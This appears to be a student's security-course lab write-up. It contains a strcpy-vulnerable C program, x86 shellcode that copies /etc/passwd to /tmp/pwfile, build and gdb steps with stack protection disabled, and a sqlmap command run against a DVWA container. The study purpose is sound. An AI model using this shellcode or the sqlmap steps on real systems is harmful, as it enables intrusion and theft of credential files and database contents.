 # Lab #1,22110009, Le Cong Bao, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  #### step 1: Create a vulnerable c program
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano vulnerable.c 
  ```
  ![image](https://github.com/user-attachments/assets/227b7284-5d61-466c-a766-f56c8ba2579b)

  #### step 2: Compile the vulnerable c program
  ```bash
     gcc -o vulnerable vulnerable.c -fno-stack-protector -z execstack
  ```
  
  - -fno-stack-protector: Disables stack protection, making the program vulnerable to buffer overflow attacks.
  - -z execstack: Allows execution of code on the stack, enabling exploitation through injected shellcode.
  #### step 3: Build an Assemply payload
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano shellcode.asm
  ```
  ![image](https://github.com/user-attachments/assets/4f8b0e7d-a38a-4098-bab7-025926764e0b)

  #### step 4: Compile the Asssemply code
  ```bash
     nasm -f elf32 -o shellcode.o shellcode.asm
     ld -m elf_i386 -o shellcode shellcode.o
  ```
  #### step 5: Find the address of the shellcode
  ```bash
     gdb ./vulnerable
  ```
  - in `gdb` set a breakpoint at `main ` run the program with a dummy argument to obtain the address of your shellcode.
  ```bash
     break main
     run $(python -c "print('A'*72)")
     p &buffer
  ```
    
**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
1. Pull DVMA Docker image
   ```bash
      docker pull vulnerables/web-dvwa
      docker run -d -p 80:80 vulnerables/web-dvwa
   ```
   ![image](https://github.com/user-attachments/assets/c89ed07c-5616-4614-8b55-8f4a27d30e8a)
2. Access DVWA with a web browser and go to: http://localhost Log in with the default user
   ![image](https://github.com/user-attachments/assets/c4c3bba3-24e9-4a2b-a9c3-660a20aeed61)
   User: admin
   Password: password
   ![2](https://github.com/user-attachments/assets/d606eac2-2999-4370-b19c-b959cda33fff)
3. Install SQLMap in WSL
   ```bash
      wsl
      sudo apt install sqlmap
   ```
4. Find the website url to attack
   ![image](https://github.com/user-attachments/assets/aaad26f0-4f4e-49f8-8910-bc69b19387f2)
   enter random to return http://localhost/vulnerabilities/sqli/?id=1
5. Get information from the database
   ```bash
      sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=ve43k50u0t2qcfnfdhqkmga390; security=medium " --data="id=1&Submit=Submit" --dbs
   
**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
